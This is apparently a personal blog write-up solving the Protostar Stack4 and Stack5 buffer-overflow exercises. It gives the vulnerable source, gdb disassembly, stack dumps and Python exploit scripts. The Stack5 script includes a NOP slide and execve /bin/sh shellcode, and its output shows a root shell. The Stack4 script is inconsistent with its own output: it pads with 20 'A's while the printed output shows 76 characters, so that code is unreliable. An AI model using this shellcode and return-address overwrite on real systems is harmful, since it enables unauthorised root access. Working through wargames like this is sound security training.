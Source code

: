 ```yaml
---
layout: post
title:  "Protostar Stack4, Stack5"
date:   2023-04-6 09:00:00 +1100
categories: Journey
tags: 
---
```


## Stack 4

Code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Basic Output:
```bash
user@protostar:/tmp$ /opt/protostar/bin/stack4
TESTINPUTS
```

Disassembly of win and main functions:
```bash
(gdb) disass win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
(gdb)
```

```bash
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
```

I ran this with input of `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ` and found that `eip` tried to point to `0x54545454` so now we just need to replace `TTTT` with desired address of `0x080483f4`/`\xf4\x83\x04\x08`.

Python to make overflow string:
```python
buffer = "A"*20
taddr = "\xf4\x83\x04\x08"
print buffer + taddr
```

Output of python file:
```bash
user@protostar:/tmp$ cat stack4
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS�
user@protostar:/tmp$
```

Pipe this into the program, and we have our solution:
```bash
user@protostar:/tmp$ python stack4.py | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```

## Stack5

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

```bash
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
```

Stack flooded with chars:
```
0xbffff7c0:     0x00000000      0xbffff864      0xbffff86c      0xb7fe1848
0xbffff7d0:     0xbffff820      0xffffffff      0xb7ffeff4      0x08048232
0xbffff7e0:     0x00000001      0xbffff820      0xb7ff0626      0xb7fffab0
0xbffff7f0:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff800:     0xbffff838      0xf5025042      0xdf55a652      0x00000000
0xbffff810:     0x00000000      0x00000000      0x00000001      0x08048310
```

We first pad out the stack where we know that TTTT is where we need the new eip value. We know that we want at least `0xbffff7d0`, however to add tolerance, we pad this by 30, and add a `NOP` slide of 100 long until we hit out payload from `shell-code` which is a 28 byte `/bin/sh` execve shell-code.
```python
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack("I", 0xbffff7d0+30)
nop = '\x90'*100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + eip + nop + payload
```

Running this with cat for an input shell like below, we have access:
```bash
user@protostar:/tmp$ (cat stack5;cat) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
pwd
/tmp
```
